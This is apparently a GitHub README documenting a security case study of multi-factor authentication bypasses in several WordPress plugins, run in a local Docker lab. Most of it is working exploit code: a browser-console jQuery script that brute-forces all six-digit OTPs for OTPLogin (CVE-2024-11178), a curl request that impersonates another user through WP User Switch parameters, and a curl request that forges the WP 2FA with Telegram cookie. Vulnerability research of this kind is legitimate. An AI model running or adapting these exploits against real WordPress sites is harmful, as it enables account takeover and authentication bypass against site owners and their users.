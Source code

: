 # WordPress Multi-factor Authentication Experiments

## Introduction

I created a case study about several multi-factor authentication vulnerabilities using ***WordPress*** and vulnerable plugins that had no publicly available proof of concept:
    - WP User Switch
    - OTPLogin 
    - WP 2FA with Telegram
    - AppPresser (can't be exploited due to paywall, static analysis only)

## Setup

run `docker-compose -f docker-compose.yml up -d` and go to `localhost:8080`, where you can set the admin username, email and password. 

To activate the plugins, simply go to the Dashboard - Plugins - Click `Activate` on what plugin you want to activate.

## OTPLogin - CVE-2024-11178

For OTPLogin I created a simple JQuery script that can be ran inside the browser console, since that plugin doesn't have any rate limiting at all, and we needed that specific nonce.

First, call the password reset function from the `admin-ajax.php`:

```javascript
const email = 'admin@admin.com'; // use a real user, in my case I used this for testing purposes
const nonce = jQuery('[name="otplsecurity"]').val(); // grabs nonce from hidden input

jQuery.ajax({
  url: '/wp-admin/admin-ajax.php?action=otplaction',
  method: 'POST',
  data: {
    email: email,
    otplzplussecurity: '',
    otplsecurity: nonce,
    validateotp: 0
  },
  success: function (res) {
    console.log('[+] Response from OTP generation:');
    console.log(res);
  },
  error: function (xhr) {
    console.log('[!] Request failed:', xhr.responseText);
  }
});
```

Second, run the brute-force script:

```javascript
const email = 'admin@admin.com';           // Use a valid WP user
const nonce = jQuery('[name="otplsecurity"]').val(); // Grab nonce from the form


if (!nonce) {
  console.error('No nonce found');
} else {
  for(let otp = 100000; otp <= 999999; otp += 1) {
    jQuery.ajax({
      url: '/wp-admin/admin-ajax.php?action=otplaction',
      method: 'POST',
      data: {
        email: email,
        email_otp: otp,
        otplzplussecurity: '',
        otplsecurity: nonce,
        validateotp: 1
      },
      success: function (res) {
        console.log('OTP Validation Response:', res);
        if (res.status === 1 && res.response?.includes('OTP Matched')) {
          console.log('OTP Valid, you logged in');
          if (res.redirect) {
            console.log('Redirect to:', res.redirect);
          }
        } else {
          console.log('OTP INVALID or error:', res.message);
        }
      },
      error: function (xhr) {
        console.error('[!] Request failed:', xhr.responseText);
      }
    });
  }
}
```

## WP User Switch

The vulnerability appears when you change the **wpus_username** parameter and the **userid** as shown in the curl script. If you know a user and its id, you can log in as that specific user by changing the parameters. This request can be caught using Burp Suite:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: localhost:8080' -H $'Referer: http://localhost:8080/wp-admin/users.php?id=3' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'wordpress_37d007a56d816107ce5b52c10342db37=admin%[...]; wpus_who_switch=admin; wp-settings-time-2=1748241284; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%[...]; wp-settings-time-1=1749030499' \
    $'http://localhost:8080/wp-admin/admin.php?page=wp-userswitch&wpus_username=test1&wpus_userid=2&redirect=/wp-admin/users.php?update=add&id=3&wpus_nonce=ea8b1298a5'
```


## WP 2FA with Telegram

For this vulnerability to work you might actually need to configure a telegram bot for the second factor authentication to appear after logging in with username and password.

The vulnerability occurs because of the improper verification of the auth_tg_cookie that can be changed in `SHA1(authcode)`, where `authcode` can also be manipulated by the user.

After setting the specific bot, the vulnerability can be tested using this request:

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8080' -H $'Content-Length: 139' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://localhost:8080' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost:8080/wp-login.php' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'wp-settings-time-2=1748241284; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; auth_tg_cookie=7110eda4d09e062aa5e4a390b0a572ac0d2c0220' \
    --data-binary $'nonce=6fdb8ab8a9&wp-auth-id=1&redirect_to=http%3A%2F%2Flocalhost%3A8080%2Fwp-admin%2F&rememberme=0&authcode=1234&submit=Login+with+Telegram' \
    $'http://localhost:8080/wp-login.php?action=validate_tg'
```

